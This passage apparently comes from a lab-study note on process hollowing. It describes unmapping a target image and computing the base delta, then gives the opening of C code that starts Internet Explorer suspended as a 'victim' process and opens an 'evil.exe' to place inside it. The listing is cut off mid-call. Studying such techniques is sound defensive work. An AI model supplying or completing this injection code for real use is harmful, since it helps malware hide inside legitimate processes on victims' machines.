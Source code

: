 ![[Pasted image 20240513004945.png]]

**Destination Image Unmapping**

We can now carve / hollow out the destination image. Note how at the moment, before we perform the hollowing, the memory at address `01390000` (`ImageBaseAddress`) contains the calc.exe image:
![[Pasted image 20240513005114.png]]

Let's proceed with the hollowing:
![[Pasted image 20240513005217.png]]

After the memory has been allocated, we need to calculate the delta between the `ImageBaseAddress` of the destination image and the source image's preferred `ImageBase`- this is required for patching the binary.
![[Pasted image 20240513010220.png]]

### Full Source Code

```C#
#include <stdio.h>
#include <Windows.h>

#pragma comment(lib, "ntdll.lib")

EXTERN_C NTSTATUS NTAPI NtUnmapViewOfSection(HANDLE, PVOID);

int main() {

	LPSTARTUPINFOA pVictimStartupInfo = new STARTUPINFOA();
	LPPROCESS_INFORMATION pVictimProcessInfo = new PROCESS_INFORMATION();

	// Tested against 32-bit IE.
	LPCSTR victimImage = "C:\\Program Files (x86)\\Internet Explorer\\iexplore.exe";

	// Change this. Also must be 32-bit. Use project settings from the same project.
	LPCSTR replacementImage = "C:\\Users\\THM-Attacker\\Desktop\\Injectors\\evil.exe";

	// Create victim process
	if (!CreateProcessA(
			0,
			(LPSTR)victimImage,
			0,
			0,
			0,
			CREATE_SUSPENDED,
			0,
			0,
			pVictimStartupInfo,
			pVictimProcessInfo)) {
		printf("[-] Failed to create victim process %i\r\n", GetLastError());
		return 1;
	};

	printf("[+] Created victim process\r\n");
	printf("\t[*] PID %i\r\n", pVictimProcessInfo->dwProcessId);

	
	// Open replacement executable to place inside victim process
	HANDLE hReplacement = CreateFileA(
		replacementImage,
		GENERIC_READ,
		FILE_SHARE_READ,
		0,
```